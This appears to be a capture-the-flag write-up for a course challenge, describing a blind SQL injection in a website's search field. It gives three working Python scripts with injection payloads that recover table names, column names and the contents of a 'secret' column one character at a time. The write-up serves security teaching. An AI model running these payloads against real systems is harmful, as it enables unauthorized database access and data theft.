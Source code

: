 # Challenge: Sometimes_we_are_just_temporarily_blind Writeup

## Step 1: Discovering the Second Table Name

- **Vulnerability**: SQL Injection
  - _Eg, Determining the name of the second table in the database through SQL Injection._
- **Where**: Present in a website's search feature.
  - _Eg, A vulnerable input field in the website's search functionality._
- **Impact**: Discovery of the name of the second table.
  - _Eg, This could potentially expose sensitive information if the table contains confidential data._

- **NOTE**: The script iterates through possible characters to determine the name of the second table in the database.

### Steps to reproduce

1. Use the `get_table_name` function to iterate through characters.
2. Append each discovered character to construct the table name.
3. Repeat until the full name is determined.

```python
import requests
import string

def get_table_name(url, base_payload, table_position):
    char_set = string.ascii_lowercase + string.ascii_uppercase + string.digits + string.punctuation
    table_name = ''
    position = 1
    while True:
        found_letter = False
        for char in char_set:
            payload = base_payload.format(table_position, position, char)
            response = requests.get(url + payload)
            if response.status_code == 200 and "Found 4 articles with search query" in response.text:
                table_name += char
                found_letter = True
                break
        if not found_letter:
            break
        position += 1
    return table_name

url = "http://mustard.stt.rnl.tecnico.ulisboa.pt:23262/?search="
base_payload = "' AND SUBSTR((SELECT name FROM sqlite_master WHERE type='table' ORDER BY name LIMIT 1 OFFSET {}), {}, 1) = '{}' -- "
table_position = 1
second_table_name = get_table_name(url, base_payload, table_position)
print(f"The name of the second table is: {second_table_name}")

```
### Step 2: Enumerating Column Names of the Second Table

- **Vulnerability**: SQL Injection
  - _Discovering column names of the identified table._
- **Where**: Same vulnerable search feature.
- **Impact**: Revealing the schema of the table, aiding in further exploitation.

### Steps to reproduce

1. Apply the `get_column_names` function with the identified table name.
2. Iterate over characters to find each column name.
3. Compile a list of column names.

```python
import requests
import string

def get_column_names(url, base_payload, table_name):
    column_names = []
    for column_index in range(10):
        column_name = ''
        position = 1
        while True:
            found_letter = False
            for char in string.ascii_lowercase + string.ascii_uppercase + string.digits + string.punctuation:
                payload = base_payload.format(table_name, column_index, position, char)
                response = requests.get(url + payload)
                if response.status_code == 200 and "Found 4 articles with search query" in response.text:
                    column_name += char
                    found_letter = True
                    break
            if not found_letter:
                break
            position += 1
        if column_name:
            column_names.append(column_name)
        else:
            break
    return column_names

url = "http://mustard.stt.rnl.tecnico.ulisboa.pt:23262/?search="
base_payload = "' AND SUBSTR((SELECT name FROM pragma_table_info('{}') LIMIT 1 OFFSET {}), {}, 1) = '{}' -- "
table_name = "super_s_sof_secrets"
column_names = get_column_names(url, base_payload, table_name)
print(f"Column names in the table {table_name}: {column_names}")
```

# Step 3: Extracting Contents of the 'Secret' Column

- **Vulnerability**: SQL Injection
  - _Retrieving data from the 'secret' column of the identified table._
- **Where**: Same vulnerable search feature.
- **Impact**: Accessing sensitive data within the table, potentially exposing confidential information.

### Steps to reproduce

1. Use the `get_secret_column_contents` function with the target table and column.
2. Iterate through characters at each position to build the contents of the 'secret' column.
3. Output the extracted data.

```python
import requests
import string

def get_secret_column_contents(url, table_name, column_name, max_rows=10):
    for row_index in range(max_rows):
        secret_data = ''
        position = 1
        while True:
            found_character = False
            for char in string.ascii_lowercase + string.ascii_uppercase + string.digits + string.punctuation:
                payload = f"' AND (SELECT SUBSTR({column_name}, {position}, 1) FROM {table_name} LIMIT 1 OFFSET {row_index}) = '{char}' -- "
                full_url = url + payload
                response = requests.get(full_url)
                if response.status_code == 200 and "Found 0 articles with search query" not in response.text:
                    secret_data += char
                    found_character = True
                    break
            if not found_character:
                break
            position += 1
        if secret_data:
            print(f"Row {row_index + 1}, {column_name}: {secret_data}")
        else:
            break

url = "http://mustard.stt.rnl.tecnico.ulisboa.pt:23262/?search="
table_name = "super_s_sof_secrets"
column_name = "secret"
get_secret_column_contents(url, table_name, column_name)

